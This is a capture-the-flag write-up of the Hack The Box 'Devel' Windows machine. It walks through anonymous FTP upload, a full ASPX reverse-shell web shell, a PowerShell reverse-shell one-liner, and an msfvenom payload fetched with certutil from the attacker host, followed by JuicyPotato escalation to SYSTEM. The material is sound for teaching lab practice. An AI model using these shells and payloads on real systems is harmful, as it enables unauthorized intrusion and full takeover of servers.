






# Devel Writeup - by Thammanant Thamtaranon  
- Devel is an easy Windows machine hosted on Hack The Box.

## Reconnaissance  
- I started with a full TCP port scan including service/version detection and OS fingerprinting:
```bash
nmap -A -T4 -Pn -p- 10.10.10.5
```
  
- The scan showed two open ports:  
  - 21 (FTP)  
  - 80 (HTTP)

## Scanning & Enumeration  
- We connected to FTP using `anonymous` login.  
  

## Exploitation  
- We then generated a webshell `shell.aspx`:
```bash
<%@ Page Language="C#" Debug="true" %>
<%@ Import Namespace="System.Net.Sockets" %>
<%@ Import Namespace="System.IO" %>
<%@ Import Namespace="System.Diagnostics" %>
<script runat="server">
protected void Page_Load(object sender, EventArgs e)
{
    try
    {
        string host = "10.10.16.8";  // Attacker IP
        int port = 4444;             // Listening port

        using (TcpClient client = new TcpClient(host, port))
        using (Stream stream = client.GetStream())
        using (StreamReader reader = new StreamReader(stream))
        using (StreamWriter writer = new StreamWriter(stream))
        {
            writer.AutoFlush = true;
            string inputLine;
            while ((inputLine = reader.ReadLine()) != null)
            {
                try
                {
                    Process p = new Process();
                    p.StartInfo.FileName = "cmd.exe";
                    p.StartInfo.Arguments = "/c " + inputLine;
                    p.StartInfo.RedirectStandardOutput = true;
                    p.StartInfo.RedirectStandardError = true;
                    p.StartInfo.UseShellExecute = false;
                    p.StartInfo.CreateNoWindow = true;
                    p.Start();

                    string output = p.StandardOutput.ReadToEnd() + p.StandardError.ReadToEnd();
                    writer.WriteLine(output);
                }
                catch (Exception ex)
                {
                    writer.WriteLine("Error: " + ex.Message);
                }
            }
        }
    }
    catch { }
}
</script>
```
- We uploaded the file to the server via FTP.  
  
- Navigating to `http://10.10.10.5/shell.aspx` gave us a shell as `iis apppool\web`.
   
- The shell was not interactive, so we upgraded it with PowerShell:
```bash 
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.16.8',5555);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length)};$client.Close()"
```
- We now had an interactive PowerShell shell.

## Privilege Escalation  
- Running `whoami /priv` and `whoami /groups` revealed the `SeImpersonatePrivilege` was available.  
  
- Using this, we prepared a payload:
```bash 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.8 LPORT=4444 -f exe -o shell.exe  
```
- Uploaded the payload to the server using:
```bash
certutil -urlcache -split -f http://10.10.16.8:8000/shell.exe shell.exe
```

- Executing it gave us a Meterpreter session.  
  

- We backgrounded the session and used `JuicyPotato` for privilege escalation via Metasploit:  
  - Exploit module: `exploit/windows/local/ms16_075_reflection_juicy`  
  - Filled in the required options and ran the exploit.  

- This successfully gave us a `SYSTEM` shell.  
  

- Finally, we captured both the user and root flags.
